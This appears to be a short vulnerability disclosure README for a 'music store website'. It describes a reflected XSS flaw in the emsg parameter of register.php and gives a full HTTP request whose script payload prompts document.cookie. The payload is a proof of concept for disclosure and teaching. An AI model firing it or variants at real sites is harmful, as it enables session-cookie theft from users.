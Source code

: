 # vulnerability music store website

![](https://raw.githubusercontent.com/Th4r0s/my_CVE/main/web/vuln1/docs/vuln_website.png)
![](https://raw.githubusercontent.com/Th4r0s/my_CVE/main/web/vuln1/docs/xss-triggered.png)

## description

The emsg GET parameter used for prompt error message in case of missing field in register form is vulnerable to reflected XSS.
Is possible to inject javascript code and prompt document cookie.

## vulnerability 

```
GET /mw/register.php?emsg=%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/2
Host: vulnhost.com
Cookie: PHPSESSID=tttbitb72h0efdddda4ft9q8e2f
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
```
## Description01:

JavaScript can be injected into the application (a vulnerable app - register.php, no sanitizing emsg GET parameter).


